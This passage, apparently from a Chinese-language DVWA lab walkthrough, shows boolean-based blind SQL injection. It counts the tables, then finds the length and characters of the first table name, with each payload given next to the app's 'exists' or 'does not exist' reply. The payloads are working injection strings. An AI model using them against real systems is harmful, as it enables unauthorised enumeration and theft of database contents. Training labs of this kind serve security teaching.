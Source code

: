 重复上述步骤，就可以猜解出完整的数据库名（dvwa）了。

3. 猜解数据库中的表名

首先猜解数据库中表的数量：

```text

1' and (select count (table_name) from information_schema.tables where table_schema=database())=1 # 显示不存在



1' and (select count (table_name) from information_schema.tables where table_schema=database() )=2 # 显示存在
```

说明数据库中共有两个表。

接着挨个猜解表名：

```text

1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1 # 显示不存在



1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=2 # 显示不存在



...



1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 # 显示存在
```

说明第一个表名长度为9。

```text

1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 # 显示存在



1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<122 # 显示存在



1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<109 # 显示存在



1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<103 # 显示不存在



1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>103 # 显示不存在
```
